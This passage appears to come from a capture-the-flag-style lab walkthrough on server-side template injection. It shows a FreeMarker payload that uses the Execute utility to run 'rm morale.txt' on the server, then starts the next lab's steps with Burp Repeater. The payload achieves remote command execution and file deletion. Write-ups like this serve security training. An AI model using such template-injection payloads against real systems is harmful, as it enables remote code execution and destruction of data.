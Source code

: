 Use rm morale.txt to delete file

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")}`

And the lab get solve

<img src="images/image17.jpg" alt="third" width="500">

**Step1:**

Click on product 1 

We can see in url Unfortunately this product is out of stock

**Step2:**

Send the request to repeater

<img src="images/image18.jpg" alt="third" width="500">

